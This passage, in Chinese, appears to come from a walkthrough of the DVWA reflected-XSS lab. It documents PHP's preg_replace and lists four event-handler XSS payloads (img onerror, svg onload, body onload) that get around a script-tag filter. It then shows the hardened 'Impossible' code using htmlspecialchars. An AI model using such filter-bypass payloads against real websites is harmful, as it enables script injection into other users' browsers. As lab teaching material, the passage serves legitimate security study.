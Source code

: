 **preg_replace** — 执行一个正则表达式的搜索和替换

> `mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )`

搜索subject中匹配pattern的部分， 以replacement进行替换。

 **参数解释**
 
 * pattern
要搜索的模式。可以使一个字符串或字符串数组。可以使用一些PCRE修饰符。
 * replacement
用于替换的字符串或字符串数组。如果这个参数是一个字符串，并且pattern 是一个数组，那么所有的模式都使用这个字符串进行替换。如果pattern和replacement 都是数组，每个pattern使用replacement中对应的 元素进行替换。如果replacement中的元素比pattern中的少， 多出来的pattern使用空字符串进行替换。

 * subject
要进行搜索和替换的字符串或字符串数组。
如果subject是一个数组，搜索和替换回在subject 的每一个元素上进行, 并且返回值也会是一个数组。

* limit
每个模式在每个subject上进行替换的最大次数。默认是 -1(无限)。

* count
如果指定，将会被填充为完成的替换次数。

**返回值**

如果subject是一个数组， preg_replace()返回一个数组， 其他情况下返回一个字符串。

如果匹配被查找到，替换后的subject被返回，其他情况下 返回没有改变的 subject。如果发生错误，返回 NULL 。

### 漏洞利用
虽然无法使用`<script>`标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码
```
<img src=1 onerror=alert(1)>
<svg onload=alert`1`>
<body/onload=alert(25)>
<img src=1 onerror=prompt(1)//
```
## Impossible
### 核心代码
```
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到，Impossible级别的代码使用`htmlspecialchars`函数把预定义的字符`&`、`"`、`'`、`<`、`>`转换为 HTML 实体，防止浏览器将其作为HTML元素。经测试，默认不过滤`'`和`"`
